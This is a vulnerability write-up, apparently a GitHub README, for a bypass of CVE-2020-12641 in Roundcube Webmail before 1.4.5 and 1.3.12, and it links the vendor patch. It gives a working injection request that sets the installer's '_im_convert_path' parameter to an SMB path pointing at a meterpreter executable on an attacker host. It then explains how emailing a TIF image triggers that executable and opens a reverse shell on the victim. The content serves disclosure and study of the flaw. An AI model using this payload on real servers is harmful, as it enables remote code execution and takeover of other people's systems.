

# Calling Remote Executables via SMB Paths Bypass for CVE-2020-12641 in Roundcube Webmail

This bypass affects Roundcube versions before 1.4.5, 1.3.12.

### Vendor Disclosure:

The vendor's disclosure and patch for the bypass can be found [here](https://roundcube.net/news/2020/06/02/security-updates-1.4.5-and-1.3.12).

### Calling Remote Executables via SMB Paths

This exploit is OS dependent, and only works for Windows Environments that allow SMB reverse connections.
<br/>
In this case we will use the Windows inbuilt SMB Client in order to serve the system malicious remote executables.
<br/>
The following steps will be performed:

#### Craft Injection Request

We craft and send a POST request to the Installer containing the malicious remote SMB executable in the "_im_convert_path" parameter:
```
POST /roundcube-1.4.4/installer/index.php HTTP/1.1
Host: 192.168.243.129:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 918

_step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&submit=UPDATE+CONFIG&_im_convert_path=\\192.168.243.128\mal\meter.exe
```

<strong>Note:</strong> In this case we call a malicious meterpreter executable from "\\192.168.243.128\mal\meter.exe", where:
- <strong>192.168.243.128</strong> == is the malicious SMB's IP
- <strong>mal</strong> == is the smb branch/share name
- <strong>meter.exe</strong> == is the malicious Windows executable containing a meterpreter reverse shell


#### Send Email Containing a "Non-standard" Image

We proceed to send to the victim, in this case "mal@localhost", an email containing an image of non-standard format (in this case a "TIF" format image), which Roundcube will try to convert to "JPG" format, thus triggering the above SMB connect-back and running arbitrary executables on the victim:


#### Result

If the attack was performed correctly, when the victim opens the mail containing the "TIF" image, a reverse SMB connection will be made with the attacker, running the malicious EXE in memory on the victim and resulting in a reverse meterpreter shell:

